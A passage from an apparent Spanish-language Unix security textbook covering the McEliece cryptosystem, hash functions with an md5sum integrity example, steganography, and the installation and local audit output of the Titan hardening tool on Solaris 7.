que corrija los errores con \'este c\'odigo en un tiempo peque\~no; esta matriz
es obtenida a partir de la expresi\'on
\begin{center}
$G^{\ast}=S\times G\times P$
\end{center}
con $S$ una matriz aleatoria no singular de orden $k\times k$, y $P$ una matriz
de permutaciones de orden $n\times n$.
Todos los usuarios del sistema mantienen sus respectivos $G^{\ast}$ y $t$ 
p\'ublicos, mientras que las matrices $G$, $S$ y $P$ ser\'an secretas.\\
\\Supongamos que un emisor A quiere enviar un mensaje al receptor B.
Para ello, representar\'a el mensaje como un conjunto de cadenas binarias,
$m$, de longitud $k_{b}$ {\it bits}, y enviar\'a el mensaje cifrado de $n$ {\it 
bits}
\begin{center}
$c=m\times G_{b}^{*}+e$,
\end{center}
siendo $e$ un vector de longitud $n_{b}$ y peso $p_{b}\leq t_{b}$ que dificulta 
el criptoan\'alisis de un potencial atacante, por razones en las que no vamos a 
entrar.\\
\\Cuando B recibe el mensaje, ha de calcular
\begin{center}
$c\times P^{-1}=m\times S\times G\times P\times P^{-1}+e\times P^{-1} =(m\times 
S)\times G+e^{\prime}$
\end{center}
utilzando sus matrices $S$, $G$ y $P$ (que recordemos son privadas). El vector
$e^{\prime}$ se calcula como
\begin{center}
$e^{\prime}=e\times P^{-1}$
\end{center}
y tiene tambi\'en un peso inferior a $t_{b}$.\\
\\Llamando $m^{\prime} = m\times S$, el receptor B puede calcular ahora el 
mensaje original, a partir de
\begin{center}
$m=m^{\prime} \times S^{-1}$
\end{center}
(<recordemos una vez m\'as que $S$ ha de ser privada para cada usuario!).
Hay que resaltar, por \'ultimo, que aunque el criptosistema de
McEliece no ha sido completamente acogido por la comunidad criptol\'ogica,
es muy importante el estudio que desde la presentaci\'on del sistema
en 1978 se est\'a haciendo para el desarrollo de sistemas de clave
p\'ublica basados en la Teor\'{\i}a de la Codificaci\'on.
\section{Funciones resumen}
Matem\'aticamente podemos definir las funciones resumen ({\it hash functions}) 
como proyecciones de un conjunto, generalmente con un n\'umero elevado de 
elementos (incluso infinitos), sobre un conjunto de tama\~no fijo y mucho m\'as 
peque\~no que el anterior; por ejemplo, podemos definir la siguiente funci\'on 
resumen, que va de un conjunto con un n\'umero infinito de elementos a otro
con \'unicamente 10:
\begin{center}
$H(x)$ $=$ $x$ $mod$ $10$, $x \in \Re$, $H(x) \in [0,9]$
\end{center}
Sin embargo, aunque la anterior sea una funci\'on resumen en sentido estricto, 
no es especialmente interesante en aplicaciones criptogr\'aficas; para serlo, 
habr\'{\i}a de cumplir los siguientes requisitos:
\begin{itemize}
\item La entrada puede ser de un tama\~no indeterminado.
\item La salida es de un tama\~no fijo, varios \'ordenes de magnitud m\'as
peque\~no que el anterior.
\item Para un cierto $x$, calcular $H(x)$ es computacionalmente barato.
\item $H(x)$ es de un solo sentido.
\item $H(x)$ no presenta colisiones.
\end{itemize}
El que una funci\'on {\it hash} sea de un solo sentido (lo que se denomina {\it
One--Way hash function}) no implica m\'as que a partir del valor de $H(x)$
no puedo obtener el de $x$: no existe $H^{-1}(x)$, o su c\'alculo es 
computacionalmente dif\'{\i}cil. Las colisiones en una funci\'on resumen se
producen cuando para dos entradas diferentes $x$ e $y$, $H(x)=H(y)$, y se habla 
de
funciones {\it hash} d\'ebilmente libres de colisiones ({\it weakly collision
free}) cuando es 
computacionalmente imposible encontrar dos elementos $x$ e $y$ tales que 
cumplan 
$H(x)=H(y)$; si aparte de computacionalmente imposible tambi\'en lo es
matem\'atimamente, se habla de funciones resumen fuertemente libres de 
colisiones ({\it strongly collision-free}).\\
\\Una de las aplicaciones criptogr\'aficas m\'as importante de las funciones 
resumen es sin duda la verificaci\'on de integridad de archivos; aunque ya
hemos hablado de los verificadores de integridad tipo Tripwire en el 
cap\'{\i}tulo dedicado a los sistemas de detecci\'on de intrusos, la idea es
sencilla: en un sistema del que tengamos constancia que est\'a `limpio' (esto
es, que no ha sido troyanizado o modificado de cualquier forma por un pirata)
podemos generar res\'umenes de todos los ficheros que consideremos clave para
el correcto funcionamiento de la m\'aquina y guardar dichos res\'umenes --
como ya indica su nombre, mucho m\'as cortos que los archivos originales -- en
un dispositivo de s\'olo lectura como un CD-ROM. Peri\'odicamente, o cuando
sospechemos que la integridad de nuestro entorno ha sido violada, podemos volver
a generar los res\'umenes y comparar su resultado con el almacenado previamente:
si no coinciden, podemos estar seguros (o casi seguros) de que el fichero ha
sido modificado.\\
\\Para este tipo de aplicaciones se suele utilizar la funci\'on resumen {\sc
md5}, dise\~nada por Ronald Rivest y que viene implementada `de serie' en 
muchos clones de Unix, como Solaris o Linux (\'ordenes {\tt `md5'} o {\tt
`md5sum'}):
\begin{quote}
\begin{verbatim}
luisa:~$ echo "Esto es una prueba" >/tmp/salida
sluisa:~$ md5sum /tmp/salida 
3f8a62a7db3b276342d4c65dba2a5adf  /tmp/salida
luisa:~$ echo "Ahora modifico el fichero" >>/tmp/salida
luisa:~$ md5sum /tmp/salida 
1f523e767e470d8f23d4378d74817825  /tmp/salida
luisa:~$ 
\end{verbatim}
\end{quote}
Otra aplicaci\'on importante de las funciones resumen es la firma digital de
mensajes -- documentos -- y su {\it timestamping}; en el primer caso, como los 
algoritmos de firma digital suelen ser lentos, o al menos
m\'as lentos que las funciones {\it hash}, es habitual calcular la firma
digital de un resumen del fichero original, en lugar de hacer el c\'alculo 
sobre el propio fichero (evidentemente, de tama\~no mayor que su resumen). Con
respecto al {\it timestamping}, las funciones {\it hash} son \'utiles porque 
permiten publicar un resumen de un documento sin publicar su contenido, lo cual
permite a una parte obtener un {\it timestamp} de un documento sin que la
autoridad de {\it timestamp} conozca el contenido del mismo, pero asegur\'andose
la validez del procedimiento en caso de repudio; en ambos casos, tanto en la
firma digital como en el {\it timestamping}, trabajar con el resumen es 
completamente equivalente a trabajar con el archivo original.
\section{Esteganograf\'{\i}a}
La esteganograf\'{\i}a (tambi\'en llamada cifra encubierta, \cite{kn:cesid}) es 
la ciencia que estudia los procedimientos encaminados a ocultar la existencia 
de un mensaje en lugar de ocultar su contenido; mientras que la 
criptograf\'{\i}a pretende que un atacante que consigue un mensaje no sea capaz
de averiguar su contenido, el objetivo de la esteganograf\'{\i}a es ocultar ese
mensaje dentro de otro sin informaci\'on importante, de forma que el atacante
ni siquiera se entere de la existencia de dicha informaci\'on oculta. No se
trata de sustituir al cifrado convencional sino de complementarlo: ocultar un
mensaje reduce las posibilidades de que sea descubierto; no obstante, si lo es,
el que ese mensaje haya sido cifrado introduce un nivel adicional de
seguridad.\\
\\A lo largo de la historia han existido multitud de m\'etodos para ocultar
informaci\'on. Quiz\'as los m\'as conocidos hayan sido la tinta invisible, muy 
utilizada durante la Segunda Guerra Mundial, o las marcas de cualquier tipo 
sobre ciertos caracteres (desde peque\~nos pinchazos de alfiler hasta trazos a 
l\'apiz que marcan un mensaje oculto en un texto), pero otros mecanismos m\'as
`extravagantes' tambi\'en han sido utilizados: por ejemplo, afeitar la cabeza
de un mensajero y tatuar en el cuero cabelludo el mensaje, dejando despu\'es
que el crecimiento del pelo lo oculte; podemos repasar algunos modelos 
esteganogr\'aficos cuanto menos curiosos en \cite{kn:kah67}.\\
\\Con el auge de la inform\'atica, el mecanismo esteganogr\'afico m\'as 
extendido est\'a basado en las im\'agenes digitales y su excelente capacidad
para ocultar informaci\'on; aunque existen varias formas de conseguirlo 
(\cite{kn:schy94}), la m\'as b\'asica consiste simplemente en 
sustituir el {\it bit} menos significativo de cada {\it byte} por los {\it bits}
del mensaje que queremos ocultar; dado que casi todos los est\'andares
gr\'aficos tienen una graduaci\'on de colores mayor de lo que el ojo humano 
puede apreciar, la imagen no cambiar\'a su apariencia de forma notable. Otros
elementos donde ocultar informaci\'on son las se\~nales de audio y video y el 
propio texto (\cite{kn:ben96}); aunque hist\'oricamente nunca han estado tan 
extendidas como la anterior, en los \'ultimos tiempos el inter\'es por los
mecanismos de ocultaci\'on de informaci\'on en formatos de audio 
(principalmente MP3) y video ha ido en aumento. Y no es de extra\~nar: a nadie 
se le escapa que con la cantidad de protocolos {\it peer to peer} de 
intercambio de archivos ({\it e-Donkey}, {\it Morpheus}\ldots) que existen en
la actualidad, y que son usados por millones de usuarios para intercambiar 
ficheros MP3 y DIVX a trav\'es de la red, el volumen de informaci\'on que puede 
viajar camuflada en los mismos es impresionante. Esto, que a la mayor parte de
los mortales nos da un poco igual, es un \'area de gran inter\'es para las 
agencias de inteligencia de todo el mundo (muy en especial desde los 
desgraciados sucesos del once de septiembre pasado), debido al peligro que 
entra\~na el intercambio de informaci\'on discreto, r\'apido y efectivo que
puede establecerse entre miembros de redes terroristas desde cualquier punto 
del planeta, sin m\'as que un PC conectado a Internet y un programa cliente de 
cualquiera de estos protocolos.
 
\cleardoublepage
\chapter{Algunas herramientas de seguridad}
\section{Introducci\'on}
>Por qu\'e utilizar herramientas de seguridad en los sistemas Unix? Ning\'un
sistema operativo se puede considerar `seguro' tal y como se instala por 
defecto\footnote{<Algunos no pueden considerarse `seguros' nunca!}; 
normalmente, cualquier distribuci\'on de un sistema se instala pensando en
proporcionar los m\'{\i}nimos problemas a un administrador que desee poner
la m\'aquina a trabajar inmediatamente, sin tener que preocuparse de la 
seguridad. Es una cuesti\'on de puro {\it marketing}: imaginemos un sistema
Unix que por defecto se instalara en su modo m\'as restrictivo en cuanto a
seguridad; cuando el administrador desee ponerlo en funcionamiento 
conect\'andolo a una red, ofreciendo ciertos servicios, gestionando usuarios y 
perif\'ericos\ldots deber\'a conocer muy bien al sistema, ya que ha de dar
expl\'{\i}citamente los permisos necesarios para realizar cada tarea, con la 
consiguiente p\'erdida de tiempo. Es mucho m\'as productivo para cualquier
empresa desarrolladora de sistemas proporcionarlos completamente abiertos, de 
forma que el administrador no tenga que preocuparse mucho de c\'omo funciona 
cada parte del sistema que acaba de instalar: simplemente inserta el CDROM 
original, el {\it software} se instala, y todo funciona a la primera, 
aparentemente sin problemas\ldots\\
\\Esta pol\'{\i}tica, que lamentablemente siguen casi todas las empresas 
desarrolladoras, convierte a un sistema Unix que no se haya configurado 
m\'{\i}nimamente en un f\'acil objetivo para cualquier atacante. Es m\'as, la
complejidad de Unix hace que un administrador que para aumentar la seguridad de 
su sistema se limite a cerrar ciertos servicios de red o detener algunos
demonios obtenga una sensaci\'on de falsa seguridad: esta persona va a pensar
que su sistema es seguro simplemente por realizar un par de modificaciones en
\'el, cosa que es completamente falsa.
\section{Titan}
Para corroborar la inseguridad de los sistemas Unix instalados tal y como se
distribuyen, o m\'{\i}\-ni\-ma\-men\-te configurados, hemos hecho la prueba con uno de
los sistemas considerados m\'as seguros: Solaris, de la empresa {\it Sun
Microsystems, Inc.}. Hemos instalado Solaris 7 sobre un PC, cerrado la 
mayor\'{\i}a de servicios ofrecidos (en {\tt /etc/inetd.conf}), y controlado el
acceso a otros ({\tt telnet}, {\tt finger}, {\tt ftp}\ldots) mediante 
{\it TCP Wrappers}: justo lo que la mayor parte de administradores har\'{\i}an
antes de poner el sistema a funcionar. Tras estos pasos, hemos ejecutado el
programa de auditor\'{\i}a autom\'atica {\it Titan}, que detecta problemas de
seguridad en la m\'aquina local (para m\'as informaci\'on sobre este {\it 
software} se puede consultar \cite{kn:tit98}).
\subsubsection{Instalaci\'on de {\it Titan}}
Hemos elegido {\it Titan} justamente por ser uno de los programas m\'as 
f\'acilmente instalables sobre SunOS o Solaris: al tratarse de un conjunto de
{\it shellscripts}, el administrador no ha de preocuparse por ning\'un proceso
de compilaci\'on (con los posibles errores que \'este puede causar), ni 
conocer t\'ecnicas avanzadas de seguridad para poder utilizarlo (como otros
programas que presentan una multitud de opciones diferentes que se pueden 
combinar entre ellas, de forma que quien los quiera utilizar debe conocer 
bastante bien ciertos t\'erminos de Unix y de la seguridad, que no suelen ser
triviales). Tanto la instalaci\'on de {\it Titan} como su ejecuci\'on son 
muy sencillos.\\
\\Para instalar {\it Titan}, una vez desempaquetado el fichero, hemos de 
ejecutar simplemente\\{\tt Titan-Config}, con la opci\'on {\tt -i} (la opci\'on 
{\tt -d} desinstala el {\it software}. El programa de instalaci\'on nos 
preguntar\'a si deseamos hacer copias de seguridad de los ficheros que se
modifiquen al ejecutar {\it Titan}; por nuestra seguridad, podemos decirle que
s\'{\i} ({\tt y}):
\begin{verbatim}
anita:/export/home/toni/Security/Tools# gzip -d Titan,v3.0.FCS.tar.gz
anita:/export/home/toni/Security/Tools# tar xvf Titan,v3.0.FCS.tar
anita:/export/home/toni/Security/Tools# cd Titan,v3.0.FCS
anita:/export/home/toni/Security/Tools/Titan,v3.0.FCS# ./Titan-Config -i
checking for dependencies...
finding out where we are...
we are in '/export/home/toni/Security/Tools/Titan,v3.0.FCS'

checking out your system...
this system runs: SunOS-5.7-i86pc
we will be using: sol2x86

setting up links...
removing old links...
linking bin into path...
linking lib into path...
linking logs into path...
linking src into path...
linking tmp into path...
linking done.
cleaning up is_root, sanity_check, Titan...
pulling in local Titan script...
 
Run Titan utilites with 'Titan -[v,f,i]' after reading the Docs...
			OR
Run Titan using a config file. (Titan -c sample.Server) after reading the Docs  
 
Titan can backup all of the files it modifies; This is recommended
proceed? y/n: y
Okay... Checking for backup program...
Found backtit.sh - Backing up system files now... This might take a while..
Creating backup dir in : /export/home/toni/Security/Tools/Titan,v3.0.FCS/\
     arch/sol2sun4/bin/Backup//1013990418
Generating listings.....
Calculating and backing up files now...................................\
     ............ Done!!
...
...
Saved off 44 files to: /export/home/toni/Security/Tools/Titan,v3.0.FCS/\
     arch/sol2sun4/bin/Backup//1013990418
See details in savelist: /export/home/toni/Security/Tools/Titan,v3.0.FCS/\
     arch/sol2sun4/bin/Backup//1013990418/../SaveList.1013990418
Restore by running /export/home/toni/Security/Tools/Titan,v3.0.FCS/\
     arch/sol2sun4/bin/lib/untit.sh -[g,r]
anita:/export/home/toni/Security/Tools/Titan,v3.0.FCS# 
\end{verbatim}
Una vez instalado {\it Titan} (todo a partir del directorio actual, no genera
ficheros en ning\'un otro lugar de nuestros sistemas de archivos) podemos
ejecutar ya el programa de auditor\'{\i}a, con la opci\'on {\tt -v} para que no
realice ning\'un cambio en nuestro sistema, sino que simplemente se limite a
informarnos de los posibles problemas de seguridad que podemos tener; si 
deseamos ver el funcionamiento de cada uno de los {\it shellscripts} invocados
por {\it Titan}, podemos utilizar la opci\'on {\tt -i}, y si lo que queremos
es solucionar los problemas detectados, la opci\'on {\tt -f} (cuidado si 
hacemos esto, la pol\'{\i}tica de seguridad de {\it Titan} es tan estricta que
podemos dejar al sistema s\'olamente utilizable por el {\it root}).
\subsubsection{Ejecuci\'on de {\it Titan}}
En nuestro caso, queremos que {\it Titan} nos informe de los problemas de
seguridad que detecte, pero que no los solucione \'el:
\begin{verbatim}
anita:/export/home/toni/Security/Tools/Titan,v3.0.FCS# ./Titan -v

_____________________________________________________
*=*=*=*=* Running modules/add-umask.sh now.....
Output to ../logs/modules/add-umask.sh.V.042506
-----------------------------------------------------
No umask file /etc/init.d/umask.sh found

_____________________________________________________
*=*=*=*=* Running modules/adjust-arp-timers.sh now.....
Output to ../logs/modules/adjust-arp-timers.sh.V.042506
-----------------------------------------------------

Checking for ARP timers in /etc/rc2.d/S69inet

ARP timers are not set - FAILS CHECK


_____________________________________________________
*=*=*=*=* Running modules/adjust.syn-timeout.sh now.....
Output to ../logs/modules/adjust.syn-timeout.sh.V.042506
-----------------------------------------------------
ERROR - This script is Only needed on Solaris 2.4 and older
please see Sun's patch (Patch 103582-11 currently) for a better fix

_____________________________________________________
*=*=*=*=* Running modules/automount.sh now.....
Output to ../logs/modules/automount.sh.V.042506
-----------------------------------------------------
File /etc/rc2.d/S74autofs exists...
Automounter =
/usr/lib/autofs/automountd /usr/sbin/automount /usr/bin/pkill - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/create-issue.sh now.....
Output to ../logs/modules/create-issue.sh.V.042506
-----------------------------------------------------
Cannot read /etc/issue - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/decode.sh now.....
Output to ../logs/modules/decode.sh.V.042506
-----------------------------------------------------
Decode disabled - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/disable-L1-A.sh now.....
Output to ../logs/modules/disable-L1-A.sh.V.042506
-----------------------------------------------------
./modules/disable-L1-A.sh: ./sanity_check: No such file or directory

_____________________________________________________
*=*=*=*=* Running modules/disable-NFS.bind.sh now.....
Output to ../logs/modules/disable-NFS.bind.sh.V.042506
-----------------------------------------------------
Verifying port settings using ndd
privileged port definition is currently set to 1024

You should run disable-NFS.bind.sh with the -F option (port=1024)


_____________________________________________________
*=*=*=*=* Running modules/disable-accounts.sh now.....
Output to ../logs/modules/disable-accounts.sh.V.042506
-----------------------------------------------------
Checking 11 Users....
Checking that shell set to noshell for:
daemon bin adm lp uucp nuucp listen nobody noaccess nobody4 ppp
Verify shell status....

daemon shell = - FAILS CHECK
bin shell = - FAILS CHECK
adm shell = - FAILS CHECK
lp shell = - FAILS CHECK
uucp shell = - FAILS CHECK
nuucp shell = /usr/lib/uucp/uucico - FAILS CHECK
listen shell = - FAILS CHECK
nobody shell = - FAILS CHECK
noaccess shell = - FAILS CHECK
nobody4 shell = - FAILS CHECK
ppp shell = /usr/sbin/pppls - FAILS CHECK

11 Users Not Secured Out Of 11

_____________________________________________________
*=*=*=*=* Running modules/disable-core.sh now.....
Output to ../logs/modules/disable-core.sh.V.042506
-----------------------------------------------------
Core dump size has not been set: FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/disable-ping-echo.sh now.....
Output to ../logs/modules/disable-ping-echo.sh.V.042506
-----------------------------------------------------
Ping echo response allowed - FAILED CHECK
Run ./modules/disable-ping-echo.sh with -[Ff] to fix...


_____________________________________________________
*=*=*=*=* Running modules/disable_ip_holes.sh now.....
Output to ../logs/modules/disable_ip_holes.sh.V.042506
-----------------------------------------------------
Checking ip_forwarding...
ip_forwarding disabled - PASSES CHECK
Checking ip_forward_src_routed...
ip_forward_src_routed disabled - PASSES CHECK
Checking ip_forward_directed_broadcasts...
ip_forward_directed_broadcasts disabled - PASSES CHECK
Checking ip_ignore_redirect...
ip_ignore_redirect enabled - PASSES CHECK
Checking ip_strict_dst_multihoming...
ip_strict_dst_multihoming enabled - PASSES CHECK
System configured as 'notrouter' - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/dmi-2.6.sh now.....
Output to ../logs/modules/dmi-2.6.sh.V.042506
-----------------------------------------------------
ERROR - This script is Only supported on Solaris 2.6 and newer, 
please use one of the other scripts for your OS

_____________________________________________________
*=*=*=*=* Running modules/eeprom.sh now.....
Output to ../logs/modules/eeprom.sh.V.042506
-----------------------------------------------------
Architecture = i86pc
Eeprom security-mode not supported on this host

_____________________________________________________
*=*=*=*=* Running modules/file-own.sh now.....
Output to ../logs/modules/file-own.sh.V.042506
-----------------------------------------------------
Checking /usr file ownership
Found 25345 files in /usr that should be root owned
Checking /sbin file ownership
Found 13 files in /sbin that should be root owned
Checking /usr group permissions
Found 0 files in /usr that should be set group g-w
Checking /sbin group permissions
Found 0 files in /sbin that should be set group g-w
Checking /etc group permissions
Found 0 files in /etc that should be set group g-w
Checking /opt group permissions
Found 0 files in /opt that should be set group g-w

_____________________________________________________
*=*=*=*=* Running modules/fix-cronpath.sh now.....
Output to ../logs/modules/fix-cronpath.sh.V.042506
-----------------------------------------------------
File /var/spool/cron/crontabs/root exists; continuing
       /etc is not writable by world - PASSES CHECK.
       /etc is not writeable by group - PASSES CHECK.
       /etc/cron.d is not writable by world - PASSES CHECK.
       /etc/cron.d is not writeable by group - PASSES CHECK.
       /usr is not writable by world - PASSES CHECK.
drwxrwxr-x  32 root         1024 Oct  8 00:58 /usr
       /usr is writeable by group - FAILS CHECK
       /usr/sbin is not writable by world - PASSES CHECK.
drwxrwxr-x   5 root         4608 Sep 24 01:32 /usr/sbin
       /usr/sbin is writeable by group - FAILS CHECK
       /usr/lib is not writable by world - PASSES CHECK.
drwxrwxr-x  42 root        10240 Oct  8 00:55 /usr/lib
       /usr/lib is writeable by group - FAILS CHECK
       /usr/lib/fs is not writable by world - PASSES CHECK.
drwxrwxr-x  13 root          512 Sep 23 18:33 /usr/lib/fs
       /usr/lib/fs is writeable by group - FAILS CHECK
       /usr/lib/fs/nfs is not writable by world - PASSES CHECK.
       /usr/lib/fs/nfs is not writeable by group - PASSES CHECK.
       /usr/bin is not writable by world - PASSES CHECK.
drwxrwxr-x   3 root         7680 Oct  8 00:52 /usr/bin
       /usr/bin is writeable by group - FAILS CHECK
    
    /etc/cron.d/logchecker ownership should be changed to root 
    /usr/lib/newsyslog ownership should be changed to root 
    /usr/bin/rdate ownership should be changed to root 
    /usr/sbin/rtc ownership should be changed to root 
    
         No cron.allow file - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/fix-modes.sh now.....
Output to ../logs/modules/fix-modes.sh.V.042506
-----------------------------------------------------
Only supported on Solaris 2.2 thru 2.6

_____________________________________________________
*=*=*=*=* Running modules/fix-stack.sh now.....
Output to ../logs/modules/fix-stack.sh.V.042506
-----------------------------------------------------
ERROR - This script is Only known to work on Solaris 2.5.[0-5]

_____________________________________________________
*=*=*=*=* Running modules/fix-stack.sol2.6.sh now.....
Output to ../logs/modules/fix-stack.sol2.6.sh.V.042506
-----------------------------------------------------
Stack Protection not currently set - Run fix-stack.sol2.6.sh -F

_____________________________________________________
*=*=*=*=* Running modules/ftpusers.sh now.....
Output to ../logs/modules/ftpusers.sh.V.042506
-----------------------------------------------------
No /etc/ftpusers file in place...
Should contain at least:

root
daemon
sys
bin
adm
lp
smtp
uucp
nuucp
listen
nobody
noaccess
news
ingres
audit
admin
sync
nobody4

Please Run with '-F/f' to Fix - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/hosts.equiv.sh now.....
Output to ../logs/modules/hosts.equiv.sh.V.042506
-----------------------------------------------------
No /etc/hosts.equiv - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/inetd.sh now.....
Output to ../logs/modules/inetd.sh.V.042506
-----------------------------------------------------
File /etc/inet/inetd.conf exists - Checking...
name Closed - PASSES CHECK
exec Closed - PASSES CHECK
comsat Closed - PASSES CHECK
talk Open - FAILS CHECK
uucp Closed - PASSES CHECK
smtp Closed - PASSES CHECK
tftp Closed - PASSES CHECK
finger Open - FAILS CHECK
systat Closed - PASSES CHECK
netstat Closed - PASSES CHECK
rquotad Closed - PASSES CHECK
rusersd Closed - PASSES CHECK
sprayd Closed - PASSES CHECK
walld Closed - PASSES CHECK
rexd Closed - PASSES CHECK
shell Closed - PASSES CHECK
login Closed - PASSES CHECK
exec Closed - PASSES CHECK
comsat Closed - PASSES CHECK
time Closed - PASSES CHECK
echo Closed - PASSES CHECK
discard Closed - PASSES CHECK
daytime Closed - PASSES CHECK
chargen Closed - PASSES CHECK
100087 Closed - PASSES CHECK
rwalld Closed - PASSES CHECK
rstatd Closed - PASSES CHECK
100068 Closed - PASSES CHECK
100083 Closed - PASSES CHECK
100221 Closed - PASSES CHECK
fs Closed - PASSES CHECK
ufsd Closed - PASSES CHECK
100232 Closed - PASSES CHECK
100235 Closed - PASSES CHECK
536870916 Closed - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/keyserv.sh now.....
Output to ../logs/modules/keyserv.sh.V.042506
-----------------------------------------------------
In /etc/rc2.d/S71rpc keyserv ; user nobody enabled - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/log-tcp.sh now.....
Output to ../logs/modules/log-tcp.sh.V.042506
-----------------------------------------------------

_____________________________________________________
*=*=*=*=* Running modules/loginlog.sh now.....
Output to ../logs/modules/loginlog.sh.V.042506
-----------------------------------------------------
No /var/adm/loginlog file - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/lpsched.sh now.....
Output to ../logs/modules/lpsched.sh.V.042506
-----------------------------------------------------
In /etc/rc2.d/S80lp lpsched is enabled - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/nfs-portmon.sh now.....
Output to ../logs/modules/nfs-portmon.sh.V.042506
-----------------------------------------------------
NFS port monitor disabled - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/nsswitch.sh now.....
Output to ../logs/modules/nsswitch.sh.V.042506
-----------------------------------------------------
passwd -> files - PASSES CHECK
group -> files - PASSES CHECK
hosts -> files - PASSES CHECK
networks -> files - PASSES CHECK
protocols -> files - PASSES CHECK
rpc -> files - PASSES CHECK
ethers -> files - PASSES CHECK
netmasks -> files - PASSES CHECK
bootparams -> files - PASSES CHECK
publickey -> files - PASSES CHECK
netgroup -> files - PASSES CHECK
automount -> files - PASSES CHECK
aliases -> files - PASSES CHECK
services -> files - PASSES CHECK
sendmailvars -> files - PASSES CHECK
15 of 15 entries set to files as default - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/nuke-sendmail.sh now.....
Output to ../logs/modules/nuke-sendmail.sh.V.042506
-----------------------------------------------------
Sendmail is enabled in /etc/rc2.d/S88sendmail - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/pam-rhosts-2.6.sh now.....
Output to ../logs/modules/pam-rhosts-2.6.sh.V.042506
-----------------------------------------------------
PAM allows rhosts for rlogin : FAILS CHECK
PAM allows rhosts for rsh : FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/passwd.sh now.....
Output to ../logs/modules/passwd.sh.V.042506
-----------------------------------------------------
All accounts have passwords - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/powerd.sh now.....
Output to ../logs/modules/powerd.sh.V.042506
-----------------------------------------------------
Power management not set to be run by root - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/psfix.sh now.....
Output to ../logs/modules/psfix.sh.V.042506
-----------------------------------------------------
Could not find /etc/rc3.d/S79tmpfix - FAILS CHECK
Run with -[Ff] option to fix

_____________________________________________________
*=*=*=*=* Running modules/rhosts.sh now.....
Output to ../logs/modules/rhosts.sh.V.042506
-----------------------------------------------------
Running against /etc/passwd...

_____________________________________________________
*=*=*=*=* Running modules/rootchk.sh now.....
Output to ../logs/modules/rootchk.sh.V.042506
-----------------------------------------------------
        /.login - Clean of . - PASSES CHECK
        /etc/.login - Clean of . - PASSES CHECK
        /etc/default/login - Clean of . - PASSES CHECK
        /.cshrc - Clean of . - PASSES CHECK
       /etc/skel/local.cshrc - Contains . - FAILS CHECK
set path=(/bin /usr/bin /usr/ucb /etc .)
        /etc/skel/local.login - Clean of . - PASSES CHECK
        /etc/skel/local.profile - Clean of . - PASSES CHECK
        /.profile - Clean of . - PASSES CHECK
        /etc/profile - Clean of . - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/routed.sh now.....
Output to ../logs/modules/routed.sh.V.042506
-----------------------------------------------------

The route daemon advertises routes - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/sendmail.sh now.....
Output to ../logs/modules/sendmail.sh.V.042506
-----------------------------------------------------
No sendmail.cf.titan2 exists - FAILS CHECK
Run with -[Ff] option to fix.
Checking for smrsh
smrsh not found in /sbin - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/smtp-banner.sh now.....
Output to ../logs/modules/smtp-banner.sh.V.042506
-----------------------------------------------------
No /etc/mail/sendmail.cf exists - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/smtpbanner-8.8.sh now.....
Output to ../logs/modules/smtpbanner-8.8.sh.V.042506
-----------------------------------------------------
ERROR - This script is Only supported on patched Solaris 2.6 and newer, 
please use one of the other scripts for your OS

_____________________________________________________
*=*=*=*=* Running modules/snmpdx-2.6.sh now.....
Output to ../logs/modules/snmpdx-2.6.sh.V.042506
-----------------------------------------------------
ERROR - This script is Only supported on Solaris 2.6 and newer, 
please use one of the other scripts for your OS

_____________________________________________________
*=*=*=*=* Running modules/syslog.sh now.....
Output to ../logs/modules/syslog.sh.V.042506
-----------------------------------------------------
File /etc/syslog.conf exists checking contents....
Syslog auth notice messages disabled - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/tcp-sequence.sh now.....
Output to ../logs/modules/tcp-sequence.sh.V.042506
-----------------------------------------------------
TCP_STRONG_ISS=1
/etc/default/inetinit - has the system default . - FAILS CHECK

_____________________________________________________
*=*=*=*=* Running modules/userumask.sh now.....
Output to ../logs/modules/userumask.sh.V.042506
-----------------------------------------------------
 Checking for umask 022 in   
 /etc/.login
 /etc/default/login
 /etc/profile
 /etc/skel/local.cshrc
 /etc/skel/local.login
 /etc/skel/local.profile

       Umask value other than 022 in /etc/.login - FAILS CHECK
       Umask value other than 022 in /etc/.login - FAILS CHECK
       Umask value 022 in /etc/profile - PASSES CHECK
       Umask value 022 in /etc/skel/local.cshrc - PASSES CHECK
       Umask value other than 022 in /etc/skel/local.login - FAILS CHECK
       Umask value other than 022 in /etc/skel/local.profile - FAILS CHECK

       UMASK value 022 in /etc/default/login - PASSES CHECK

_____________________________________________________
*=*=*=*=* Running modules/utmp.sh now.....
Output to ../logs/modules/utmp.sh.V.042506
-----------------------------------------------------
File utmp permissions o-w - PASSES CHECK
File utmp permissions o-w - PASSES CHECK


_____________________________________________________
*=*=*=*=* Running modules/vold.sh now.....
Output to ../logs/modules/vold.sh.V.042506
-----------------------------------------------------

File /etc/rc2.d/S92volmgt and /usr/sbin/vold exists - FAILS CHECK

Run with -[Ff] option to fix

_____________________________________________________
*=*=*=*=* Running modules/ziplock.sh now.....
Output to ../logs/modules/ziplock.sh.V.042506
-----------------------------------------------------

Unfortunately this is a FIX ONLY utility.....
As noted in the Introduction statement it may break functionality
for all non-root users if run -F

The list of files is as follows and may be manually modified
by editing this script and inserting/commenting out as you
like. Just make sure you know what it is you are changing:

The list of binaries that would be modified is:

/usr/bin/at
/usr/kvm/eeprom
/sbin/su
/usr/bin/atq
/usr/bin/atrm
/usr/bin/chkey
/usr/bin/crontab
